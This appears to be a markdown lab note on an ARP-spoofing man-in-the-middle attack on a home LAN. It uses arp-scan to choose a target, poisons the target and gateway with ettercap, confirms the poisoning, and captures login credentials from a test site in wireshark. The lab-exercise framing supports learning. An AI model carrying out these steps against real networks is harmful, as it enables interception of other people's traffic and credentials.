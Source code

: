 `ip r`  
```
default via 192.168.1.1 dev eth0 proto dhcp src 192.168.1.105 metric 100 
192.168.1.0/24 dev eth0 proto kernel scope link src 192.168.1.105 metric 100
```
Gateway (router) : 192.168.1.1  


`sudo arp-scan -I eth0 192.168.1.0/24`  
```
Interface: eth0, type: EN10MB, MAC: 08:00:27:50:4c:14, IPv4: 192.168.1.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     f0:51:36:1f:17:96       TCT mobile ltd
192.168.1.102   28:f1:0e:21:14:8d       Dell Inc.
192.168.1.107   c4:85:08:d3:4a:00       Intel Corporate
```
Target: 192.168.1.107  

`sudo ettercap -G`  
open GUI ettercap  
 
Hosts - `scan for hosts` -> Hosts - `host list` -> Found hosts are only `192.168.1.1` and `192.168.1.100` (is [ettercap using other ARP scan techniques than arp-scan?](arp-ettercap)) -> Targets - select targets - add `192.168.1.107   c4:85:08:d3:4a:00` as Target1 and  `192.168.1.1     f0:51:36:1f:17:96` as Target2 -> MITM -ARP spoof - `sniff remote connection` -> Plugins - manage plugins - `chk_poison`:  
```
Activating chk_poison plugin...
chk_poison: Checking poisoning status...
chk_poison: Poisoning process successful!
```

open and sniff `wireshark` on `eth0` ->  open [HTTP site](http://testphp.vulnweb.com/login.php) -> pass some credentials on that site -> find credentials in `wireshark` logs  

![arp-spoof](./img/arp-spoof.png)